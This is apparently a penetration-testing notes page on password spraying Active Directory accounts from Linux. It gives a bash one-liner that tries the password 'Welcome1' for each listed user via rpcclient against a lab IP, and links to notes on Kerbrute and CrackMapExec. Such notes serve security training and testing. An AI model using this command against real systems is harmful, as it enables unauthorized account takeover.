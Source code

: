 # Internal Password Spraying - from Linux ACTIVE Directory

### Using a Bash one-liner for the Attack

* need valid\_users.txt file
  * [password-spraying-making-a-target-user-list-active-directory.md](password-spraying-making-a-target-user-list-active-directory.md "mention")

```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
Copy
```



### Using Kerbrute for the Attack

* [#password-spraying-active-directory](kerbrute.md#password-spraying-active-directory "mention")



### Using CrackMapExec & Filtering Logon Failures

* [#password-spraying-active-directory](crackmapexec.md#password-spraying-active-directory "mention")



**Local Admin Spraying with CrackMapExec**

[#local-admin-spraying-with-crackmapexec](crackmapexec.md#local-admin-spraying-with-crackmapexec "mention")



## Reference

* [https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)

\




\




